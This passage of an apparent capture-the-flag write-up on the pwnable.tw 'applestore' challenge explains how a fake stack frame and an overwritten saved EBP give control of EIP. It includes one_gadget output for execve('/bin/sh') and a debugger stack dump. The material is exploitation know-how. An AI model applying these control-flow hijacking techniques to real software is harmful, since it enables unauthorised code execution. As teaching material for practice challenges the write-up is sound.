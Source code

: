Next, it will return to the function epilogue of the `main()` function 

{% highlight bash %}
main+4A                   call    handler
main+4F                   leave
main+50                   retn
main+50   main            endp
{% endhighlight %}

We can see that `leave` is executed again, and when `mov esp, ebp` is executed, **it will set our stack to the location of our fake stack frame!** 
**Then it will pop the first DWORD off the stack into EBP, and pop the next DWORD off the stack into EIP, giving us control of EIP!**

In my exploit, I chose to return to a "magic" address, or a one-gadget-rce address, since at the time we control EIP, `eax == NULL` and `esi` is set to an address located in the `rw-p` area of libc, satisfying its constraints.

{%highlight python %}
➜  applestore one_gadget ./libc_32.so.6 
0x3a819 execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the address of `rw-p` area of libc
  [esp+0x34] == NULL

0x5f065 execl("/bin/sh", eax)
constraints:
  esi is the address of `rw-p` area of libc
  eax == NULL

0x5f066 execl("/bin/sh", [esp])
constraints:
  esi is the address of `rw-p` area of libc
  [esp] == NULL
{% endhighlight %}

With everything setup, our `handler()` frame should look something like this before we gain code execution:
{% highlight bash %}
0100| 0xffb0b694 --> 0x41366918 
0104| 0xffb0b698 ("AAAAe\200Z÷") <-- fake stack frame starts here!
0108| 0xffb0b69c --> 0xf75a8065 (<_IO_proc_open+757>:   push   eax)
0112| 0xffb0b6a0 ('A' <repeats 11 times>)
0116| 0xffb0b6a4 ("AAAAAAA")
0120| 0xffb0b6a8 --> 0x414141 ('AAA')
0124| 0xffb0b6ac --> 0xd2b93300 
0128| 0xffb0b6b0 --> 0x0 
0132| 0xffb0b6b4 --> 0xf766c035 (add    ebx,0x3dc6b)
0136| 0xffb0b6b8 --> 0xffb0b698 ("AAAAe\200Z÷") <-- overwritten saved EBP 
0140| 0xffb0b6bc --> 0x8048cf5 (<main+79>: leave) <-- normal saved EIP
0144| 0xffb0b6c0 --> 0x804b068 --> 0x0 
0148| 0xffb0b6c4 --> 0x0 
0152| 0xffb0b6c8 --> 0x10 
0156| 0xffb0b6cc --> 0x0 
0160| 0xffb0b6d0 --> 0xf76f9000 --> 0x1afdb0 
0164| 0xffb0b6d4 --> 0xf76f9000 --> 0x1afdb0 
0168| 0xffb0b6d8 --> 0x0 
0172| 0xffb0b6dc --> 0xf7561637 (<__libc_start_main+247>:       add    esp,0x10)
0176| 0xffb0b6e0 --> 0x1 
0180| 0xffb0b6e4 --> 0xffb0b774 --> 0xffb0bf76 ("/home/vagrant/CTFs/pwnable.tw/applestore/applestore")
0184| 0xffb0b6e8 --> 0xffb0b77c --> 0xffb0bfaa ("LD_PRELOAD=./libc_32.so.6")
0188| 0xffb0b6ec --> 0x0 
0192| 0xffb0b6f0 --> 0x0 
0196| 0xffb0b6f4 --> 0x0 
{% endhighlight %}
